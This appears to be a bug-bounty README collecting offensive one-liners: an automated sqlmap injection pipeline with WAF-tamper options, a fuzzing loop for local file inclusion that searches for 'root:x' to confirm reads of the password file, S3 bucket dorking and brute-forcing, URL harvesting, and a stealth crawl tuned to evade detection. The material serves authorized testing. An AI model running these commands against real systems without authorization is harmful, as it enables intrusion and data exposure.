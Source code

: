 # Bugbounty
## 2024 Oneliners found online

### Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

### Screenshot
cat hosts | gowitness scan file -f - --write-csv  
***

## 2025 Oneliners found online 

## Find Local File Inclusion
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done
***
---

## FIND S3

### Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk
***

### Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
***

### Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

***
### Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u


#### Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain

***

### Website you can use to find S3 Buckets: 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
***
---

## Get all urls fast

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out

cat targets.txt | gau | sort | uro | tee -a targets.gau

credits to lostsec
***

## Spider the target fast

katana -u http://[TARGET URL]/ -proxy http://[LOCALIP]:[BURPPROXYPORT]/ -hl -jc --no-sandbox -c 1 -p 1 -rd 3 -rl 5 -tlsi
What it Does:

🔸-u: Target URL:
The web application or interface you want to crawl.

🔸-proxy: Burp Proxy: 
Sends all discovered requests through Burp for interception and analysis.

🔸-hl: Headless mode: 
Hooks internal headless browser calls to handle HTTP requests and responses directly within the browser context. 
This provides two key benefits:
◾Full browser-like fingerprinting (TLS/user-agent), avoiding automated detection.
◾Enhanced discovery by analyzing both raw HTTP responses and JavaScript-rendered content.

🔸-jc: JavaScript crawling. 
Extracts endpoints from within JS files and runtime execution, improving endpoint visibility.

🔸--no-sandbox: Sandbox bypass. 
Bypasses browser sandbox restrictions—useful in restricted or containerized environments.

🔸-c 1: Concurrency = 1. 
Runs one request at a time to stay stealthy and mimic legitimate traffic.

🔸-p 1: Parallelism = 1. 
Prevents simultaneous thread execution, further reducing detection risk.

🔸-rd 3: Recursion depth = 3. 
Crawls up to 3 levels deep to uncover nested endpoints without overwhelming the server.

🔸-rl 5: Rate limit = 5 req/sec. 
Keeps request speed low enough to evade rate-based WAF triggers.

🔸-tlsi: TLS fingerprint evasion. 
Emulates real browser TLS behavior to bypass basic fingerprinting-based defenses.

credits to blackhat ethical Hacking

